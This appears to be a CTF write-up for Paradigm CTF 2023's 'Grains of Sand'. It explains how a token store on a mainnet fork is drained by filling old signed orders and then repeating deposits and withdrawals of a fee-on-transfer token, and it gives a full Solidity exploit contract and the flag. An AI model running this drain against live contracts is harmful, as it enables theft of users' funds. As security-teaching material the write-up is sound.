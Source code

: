 ```yaml
---
title: Blockchain - Grains of Sand
description: 2023 | Paradigm CTF | PWN
tags:
    - smart contract
    - fee on transfer
    - signature replay
    - dune
---
```


## Description

At what point does it stop being a heap?

??? note "Deploy.s.sol"

    ```js
    // SPDX-License-Identifier: UNLICENSED
    pragma solidity ^0.8.0;

    import "forge-ctf/CTFDeployment.sol";
    import "../src/Challenge.sol";

    contract Deploy is CTFDeployment {
        function deploy(address system, address) internal override returns (address challenge) {
            vm.startBroadcast(system);

            challenge = address(new Challenge());

            vm.stopBroadcast();
        }
    }
    ```

??? note "src/Challenge.sol"

    ```js
    // SPDX-License-Identifier: UNLICENSED
    pragma solidity ^0.8.0;

    import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

    contract Challenge {
        IERC20 private immutable TOKEN = IERC20(0xC937f5027D47250Fa2Df8CbF21F6F88E98817845);

        address private immutable TOKENSTORE = 0x1cE7AE555139c5EF5A57CC8d814a867ee6Ee33D8;

        uint256 private immutable INITIAL_BALANCE;

        constructor() {
            INITIAL_BALANCE = TOKEN.balanceOf(TOKENSTORE);
        }

        function isSolved() external view returns (bool) {
            return INITIAL_BALANCE - TOKEN.balanceOf(TOKENSTORE) >= 11111e8;
        }
    }
    ```

## Solution

- The private chain is forked from the Ethereum mainnet block with block number $18437825$. And to solve the challenge, the token balance of the token store needs to be decreased by at least $11111 \times 10^8$ 

    ```js
    // challenge.py
    def get_anvil_instances(self) -> Dict[str, LaunchAnvilInstanceArgs]:
        return {
            "main": self.get_anvil_instance(fork_block_num=18_437_825),
        }
    ```

- The token GoldReserve (XGR) charges a fee when transferring, but the token store does not support fee-on-transfer tokens. So we can repeatedly deposit and withdraw to drain tokens from the store

    ```js
    function depositToken(address _token, uint _amount) deprecable {
        ...
        if (!Token(_token).transferFrom(msg.sender, this, _amount)) {
            revert();
        }
        tokens[_token][msg.sender] = safeAdd(tokens[_token][msg.sender], _amount);  // @note The amount received could be less than _amount
        Deposit(_token, msg.sender, _amount, tokens[_token][msg.sender]);
    }

    function withdrawToken(address _token, uint _amount) {
        ...
        tokens[_token][msg.sender] = safeSub(tokens[_token][msg.sender], _amount);
        if (!Token(_token).transfer(msg.sender, _amount)) {
            revert();
        }
        Withdraw(_token, msg.sender, _amount, tokens[_token][msg.sender]);
    }
    ```

- Now we need to get some GoldReserve tokens first! Through the `trade()` function, we can exchange for $XGR with signatures

    ```js
    function trade(address _tokenGet, uint _amountGet, address _tokenGive, uint _amountGive,
        uint _expires, uint _nonce, address _user, uint8 _v, bytes32 _r, bytes32 _s, uint _amount) {
        bytes32 hash = sha256(this, _tokenGet, _amountGet, _tokenGive, _amountGive, _expires, _nonce);
        // Check order signatures and expiration, also check if not fulfilled yet
        if (ecrecover(sha3("\x19Ethereum Signed Message:\n32", hash), _v, _r, _s) != _user ||
            block.number > _expires ||
            safeAdd(orderFills[_user][hash], _amount) > _amountGet) {
            revert();
        }
        tradeBalances(_tokenGet, _amountGet, _tokenGive, _amountGive, _user, msg.sender, _amount);
        orderFills[_user][hash] = safeAdd(orderFills[_user][hash], _amount);
        Trade(_tokenGet, _amount, _tokenGive, _amountGive * _amount / _amountGet, _user, msg.sender, _nonce);
    }

    function tradeBalances(address _tokenGet, uint _amountGet, address _tokenGive, uint _amountGive,
        address _user, address _caller, uint _amount) private {
        ...
        tokens[_tokenGet][_user] = safeAdd(tokens[_tokenGet][_user], safeAdd(_amount, rebateValue));
        tokens[_tokenGet][_caller] = safeSub(tokens[_tokenGet][_caller], safeAdd(_amount, feeTakeValue));
        tokens[_tokenGive][_user] = safeSub(tokens[_tokenGive][_user], tokenGiveValue);
        tokens[_tokenGive][_caller] = safeAdd(tokens[_tokenGive][_caller], tokenGiveValue);
        tokens[_tokenGet][feeAccount] = safeAdd(tokens[_tokenGet][feeAccount], safeSub(feeTakeValue, rebateValue));
        ...
    }
    ```

- Trading orders can be partially filled. By using [Dune](https://dune.com/queries/3239317), we can find unexpired orders for GoldReserve tokens. Luckily, there are two orders with large amounts of unsold tokens XD

    tx_hash | _amount | _amountGet
    -|-|-
    0x1483f5c6158dfb9a899b137ccfa988fb2b1f6927854dcd83e0a29caadd0e38ba | 4200000000000000 | 84000000000000000
    0x6d727f761c7744bebf4a8773f5a06cd7af280dcda0b55c0995aea47d5570f1a1 | 4246800000000000 | 42468000000000000

### Exploitation

```js
interface ITokenStore {
    function tokens(address _token, address _user) external view returns (uint256);
    function deposit() external payable;
    function depositToken(address _token, uint _amount) external;
    function withdrawToken(address _token, uint _amount) external;
    function trade(
        address _tokenGet,
        uint _amountGet,
        address _tokenGive,
        uint _amountGive,
        uint _expires,
        uint _nonce,
        address _user,
        uint8 _v,
        bytes32 _r,
        bytes32 _s,
        uint _amount
    ) external;
    function availableVolume(
        address _tokenGet,
        uint _amountGet,
        address _tokenGive,
        uint _amountGive,
        uint _expires,
        uint _nonce,
        address _user,
        uint8 _v,
        bytes32 _r,
        bytes32 _s
    ) external view returns (uint256);
}

contract Solve is CTFSolver {
    ITokenStore tokenStore = ITokenStore(0x1cE7AE555139c5EF5A57CC8d814a867ee6Ee33D8);

    function doTrade(
        address _tokenGet,
        uint _amountGet,
        address _tokenGive,
        uint _amountGive,
        uint _expires,
        uint _nonce,
        address _user,
        uint8 _v,
        bytes32 _r,
        bytes32 _s
    ) internal {
        uint256 amount = tokenStore.availableVolume(_tokenGet, _amountGet, _tokenGive, _amountGive, _expires, _nonce, _user, _v, _r, _s);
        tokenStore.trade(_tokenGet, _amountGet, _tokenGive, _amountGive, _expires, _nonce, _user, _v, _r, _s, amount);
    }

    function solve(address _challenge, address player) internal override {
        Challenge challenge = Challenge(_challenge);
        address token = 0xC937f5027D47250Fa2Df8CbF21F6F88E98817845;
        tokenStore.deposit{value: 10 ether}();  // to buy $XGR
        doTrade(
            address(0),
            84000000000000000,
            token,
            200000000000,
            108142282,
            470903382,
            address(0xa219Fb3CfAE449F6b5157c1200652cc13e9c9EA8),
            28,
            0xf164a3e185694dadeb11a9e9e7371929675d2eb2a6e9daa4508e96bc81741018,
            0x314f3b6d5ce7c3f396604e87373fe4fe0a10bef597287d840b942e57595cb29a
        );
        doTrade(
            address(0),
            42468000000000000,
            token,
            1000000000000,
            109997981,
            249363390,
            address(0x6FFacaa9A9c6f8e7CD7D1C6830f9bc2a146cF10C),
            28,
            0x2b80ada8a8d94ed393723df8d1b802e1f05e623830cf117e326b30b1780ae397,
            0x65397616af0ec4d25f828b25497c697c58b3dcc852259eaf7c72ff487ce76e1e
        );

        IERC20(token).approve(address(tokenStore), type(uint256).max);
        tokenStore.withdrawToken(token, tokenStore.tokens(token, player));
        while(!challenge.isSolved()) {
            tokenStore.depositToken(token, IERC20(token).balanceOf(player));
            tokenStore.withdrawToken(token, tokenStore.tokens(token, player));
        }
    }
}
```

### Flag

> PCTF{f33_70K3nS_cauS1n9_pR08L3Ms_a9a1N}